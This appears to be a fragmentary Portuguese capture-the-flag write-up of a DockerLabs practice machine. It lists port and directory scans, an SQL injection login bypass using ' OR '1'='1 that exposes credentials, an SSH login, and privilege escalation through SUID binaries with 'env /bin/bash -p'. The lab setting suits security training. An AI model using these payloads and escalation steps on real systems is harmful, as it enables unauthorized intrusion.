

maq.injection
VAMOS LIGAR A MÁQUINA
DockerLabs Vacaciones
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
RECONHECIMENTO
nmap 172.17.0.2 -sS -sV -sC --open -p- -T5 -n -Pn
Verificando as portas podemos ver que temos duas postas abertas a 22 e a 80.

gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
EXPLICAÇÃO DO COMANDO

ATAQUE DE SQL INJECTION
USUÁRIO= admin
SENHA= ' OR '1'='1
esse ataque de sql injection mostrou o USUÁRIO= Dylan ...... e a SENHA: KJSDFG789FGSDF78

conseguimos entrar no ssh dylan@172.17.0.2
Escalando privilegios
find / -perm -4000 2>/dev/null
site para pegar o comando sudo env /bin/sh https://gtfobins.github.io/gtfobins/env/#sudo
./usr/bin/env bin/bash -p
bobmarley